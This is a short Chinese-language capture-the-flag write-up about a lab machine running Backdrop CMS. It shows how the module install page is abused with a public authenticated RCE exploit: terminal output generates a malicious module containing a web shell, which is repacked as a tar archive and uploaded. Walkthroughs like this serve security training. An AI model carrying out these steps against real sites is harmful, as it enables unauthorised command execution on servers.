 ![img](img/image_20250308-150816.png)

在 `http://10.10.11.58/?q=admin/modules/install` 中，找到了模块的安装功能点

参考 [Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/52021)

需要打包一个包含有恶意模块的 tar 包，而不是 zip 包，因为 CMS 暂未添加有 zip 模块

```bash
┌──(env)(randark ㉿ kali)-[~/tmp]
└─$ python3 test-01.py http://10.10.11.58
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php

┌──(env)(randark ㉿ kali)-[~/tmp]
└─$ tar czf shell.tar shell
```

然后上传打包好的 tar 包
